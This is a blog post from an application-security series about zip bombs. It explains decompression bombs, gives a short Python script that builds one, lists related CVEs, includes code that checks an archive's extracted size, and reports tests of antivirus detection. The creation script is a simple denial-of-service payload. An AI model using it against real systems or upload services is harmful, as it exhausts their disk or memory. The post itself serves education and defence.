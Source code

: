 ```yaml
---
layout: post
title: ZIP Bombs 💣😈
subtitle: Make your storage explode 💥
slug: zip-bombs
URL: https://medium.com/bugbountywriteup/zip-bombs-30337a1b0112
author: Martin Thoma
status: draft
date: 2020-05-17 20:00
category: My bits and bytes
tags: Machine Learning
featured_image: logos/star.png
---
```

A [zip bomb](https://en.wikipedia.org/wiki/Zip_bomb) is a zip file that is designed to take an enormous amount of space once it is unpacked. The best-known one is called 42.zip and has a size of **42kB**. It contains recursively nested zip-files. On the lowest level, there is a single file which decompresses to a size of 4.3GB . This file is added in total over a million times to the archive, leading to a total unpacked size of **4.5PB** . This is well over the size of any available storage system.
> # Zip bombs are a form of decompression bomb. Decompression bombs are compressed files which extract to a crazy file size. Decompression bombs are a form of denial-of-service attacks.

Unpacking such an archive can lead in various systems to problems which are all connected to running either out of memory or out of disk space. For example, an anti-virus scanner might unpack the ZIP file and thus get killed due to memory exhaustion. A backend server might fill up its disk and no longer be able to operate.

## How to create a ZIP bomb

The simplest ZIP bombs are super easy to create. You can simply use the packages found within Python:

```python
import os
from tempfile import mkstemp
from zipfile import ZIP_LZMA, ZipFile


def create_txt_file(size_in_byte) -> str:
    handle, filepath = mkstemp(suffix=".txt", prefix="zip-txt-")
    os.close(handle)
    with open(filepath, "w") as fp:
        fp.write("0" * size_in_byte)
    return filepath


def create_zipbomb(inner_file_size=10 ** 6, nb_inner_files=10):
    filepath = create_txt_file(size_in_byte=inner_file_size)
    with ZipFile("zipbomb.zip", "w", ZIP_LZMA) as myzip:
        for i in range(nb_inner_files):
            myzip.write(filepath, f"{i}.txt")
            print(i)
    os.remove(filepath)


if __name__ == "__main__":
    create_zipbomb(inner_file_size=10 ** 9, nb_inner_files=10)
```

David Fifield also proved that it’s possible to create a zip bomb with has 42MB and extracts to 4.5PB in a **non-recursive** way ([source](https://www.bamsoftware.com/hacks/zipbomb/)).

There are also quines for ZIP files. A quine is a program that produces its source code as output. A ZIP-quine contains itself when uncompressed. One well-known one is droste.zip ([source](https://alf.nu/ZipQuine)), but there are more ([source](https://research.swtch.com/zip)).

You might also be able to create them manually by investigating the [ZIP standard](https://www.iso.org/standard/60101.html) and crafting the file.


## Should I be worried?

I wouldn’t be worried. As [Travis Ormandy](https://en.wikipedia.org/wiki/Tavis_Ormandy) pointed out, 21 out of 58 anti-virus programs could detect the zip bomb. 6 timed out, 11 could not process the files and 20 thought the file is fine.

This article is more of a friendly reminder that this type of attack exists and that one should be careful when archives are unpacked.

I found this topic in a couple of places:

* 2005: bzip2 ([CVE-2005–1260](https://nvd.nist.gov/vuln/detail/CVE-2005-1260))
* 2009: Apache Tika ([Safe parsing of droste.zip](https://issues.apache.org/jira/browse/TIKA-259?attachmentSortBy=fileName))
* 2018: Akka ([CVE-2018–16131](https://nvd.nist.gov/vuln/detail/CVE-2018-16131))
* 2019: Python ([CVE-2019–9674](https://nvd.nist.gov/vuln/detail/CVE-2019-9674))
* 2019: Info-ZIP ([CVE-2019–13232](https://nvd.nist.gov/vuln/detail/CVE-2019-13232))
* 2019: ClamAV ([CVE-2019–12625](https://nvd.nist.gov/vuln/detail/CVE-2019-12625))
* 2020: Wireshark ([CVE-2020–25866](https://nvd.nist.gov/vuln/detail/CVE-2020-25866))

## Get the size of a ZIP file without extracting data

```python
import zipfile


def get_extracted_size(filepath: str) -> int:
    """Get the extracted size in bytes."""
    zp = zipfile.ZipFile(filepath)
    return sum([zinfo.file_size for zinfo in zp.filelist])
```

Simple enough, isn’t it?

The problem is that you can nest ZIP files. So the extracted files could again contain zipped files. If you apply recursion, you might want to have a maximum recursion depth and keep track of the used memory/disk space.

## The State of AV Software

I was curious to know if anti-virus software can detect zip bombs. So I tested some and contacted some of the developers.

### Virustotal

[Virustotal](https://en.wikipedia.org/wiki/VirusTotal) offers a form where users can upload files and check the results of various programs. Here are the results for my test files:

* [42.zip](https://www.virustotal.com/gui/file/bbd05de19aa2af1455c0494639215898a15286d9b05073b6c4817fe24b2c36fa/detection): Only [Fortinet](https://en.wikipedia.org/wiki/Fortinet) detected it. 12 programs were unable to process it.
* [dorste.zip](https://www.virustotal.com/gui/file/ad187b3c99dcaa837438d580a3886f67ac1799e475e8fced23a02fb44ebaf41f/detection): [Avast](https://en.wikipedia.org/wiki/Avast), [AVG](https://en.wikipedia.org/wiki/AVG_AntiVirus), Cyren, [Eset](https://en.wikipedia.org/wiki/ESET), [Sophos](https://en.wikipedia.org/wiki/Sophos), and [Trend Micro](https://en.wikipedia.org/wiki/Trend_Micro) detected it. 10 programs were unable to process the file.
* [self-built.zip](https://www.virustotal.com/gui/file/725d25f1f5ecf498210c546d517e25f70ea07b48423de2a4648db80b56b81f56/detection): Antiy-AVL, Baidu, MAX detected it. 7 timed out. 11 were unable to process it.

### ClamAV

The first release of [ClamAV](https://en.wikipedia.org/wiki/Clam_AntiVirus) was in 2001, it was developed by Cisco and is open-source now. I’ve installed ClamAV 0.102.4/25962 . I try it with the [clamd](https://pypi.org/project/clamd/) binding:

```python
import clamd

cd = clamd.ClamdUnixSocket()
cd.scan("/home/martin-thoma/bomb.zip")
```

It gave the same output fordroste.zip , 42.zip , and my self-built.zip . None of them were detected.

### Commercial AV Software

I’ve contacted Avast, AVG, ESET, Sophos, and Trend Micro via private Twitter messages. I’ve explained that I’m writing a blog post and that their product — according to VirusTotal — does not recognize the ZIP bombs.

**TrendMicro** sent me to their [support site](https://helpcenter.trendmicro.com/en-US/contact-support/). I think I wrote them a support ticket, but due to the fact that this is just a web form and I don’t have any copy of that, I’m not sure. Those contact forms are super annoying and I gave up trying to ask the question.

**Sophos** redirected me to their [support site](https://support.sophos.com/support). I have opened a case and I’m waiting for a response.

**Avast** gave me a brief answer, but it was super unclear to me what they are actually doing. I’m still trying to clarify.

**AVG** responded, but essentially told me that they try to find the answer to my question internally.

In contrast, the experience with **ESET** was extremely positive. I’ve got in contact with [Thomas Uhlemann](https://www.linkedin.com/in/thomas-uhlemann-6661a382/) who could directly tell me what ESET is doing: They check archives until a depth of 10, meaning they can limit the effect of recursive packing. Additionally, they put limitations on the file size, memory usage, and the maximum amount of time for a scan. Apparently, the users can also adjust those limits. This information is also [publicly documented](https://help.eset.com/eis/14/en-US/idh_config_threat_sense.html).

## What’s next?

In this series about application security (AppSec) we already explained some of the techniques of the attackers 😈 and also techniques of the defenders 😇:

* Part 1: [SQL Injections](https://medium.com/faun/sql-injections-e8bc9a14c95) 😈
* Part 2: [Don’t leak Secrets](https://levelup.gitconnected.com/leaking-secrets-240a3484cb80) 😇
* Part 3: [Cross-Site Scripting (XSS)](https://levelup.gitconnected.com/cross-site-scripting-xss-fd374ce71b2f) 😈
* Part 4: [Password Hashing](https://levelup.gitconnected.com/password-hashing-eb3b97684636) 😇
* Part 5: [ZIP Bombs](https://medium.com/bugbountywriteup/zip-bombs-30337a1b0112) 😈
* Part 6: [CAPTCHA](https://medium.com/plain-and-simple/captcha-500991bd90a3) 😇
* Part 7: [Email Spoofing](https://medium.com/bugbountywriteup/email-spoofing-9da8d33406bf)

And this is about to come:

* CSRF 😈
* DOS 😈
* Credential Stuffing 😈
* Cryptojacking 😈
* Single-Sign-On 😇
* Two-Factor Authentication 😇
* Backups 😇
* Disk Encryption 😇

Let me know if you are interested in more articles around AppSec / InfoSec!
